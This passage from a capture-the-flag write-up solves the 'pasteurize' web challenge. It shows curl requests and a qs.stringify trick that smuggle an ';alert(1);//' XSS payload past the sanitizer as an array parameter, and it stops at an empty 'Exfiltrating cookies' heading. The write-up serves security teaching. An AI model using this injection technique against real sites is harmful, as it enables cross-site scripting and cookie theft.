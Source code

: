 Yes, as suspected the data is being posted as a `string` but we need to send it as our urlencoded object. So let's get rid of those single quotes!

```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw 0=%3Balert%281%29%3B%2F%2F
```

We send the POST request and receive the response:

```Nothing to add```

After reading the [/source](./source.js) again we realise that the server expects `req.body.content` and we haven't included `content` in our payload. Without `content` our payload will be ignored!

So now we need to update our payload..

```javascript
const qs = require("qs");
const payload = qs.stringify({content: [";alert(1);//"]})
console.log(payload) // outputs: content%5B0%5D=%3Balert%281%29%3B%2F%2F
```

Let's try that new payload!

```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw content%5B0%5D=%3Balert%281%29%3B%2F%2F
```

We get a response:

`Found. Redirecting to /0c8d342a-ebad-45be-8f16-000ceebd64a3`

We view the page and...

![view-post-xss-alert](./images/view-post-xss-alert.png)

Wooohooo! We got'em boys!



## Exfiltrating cookies
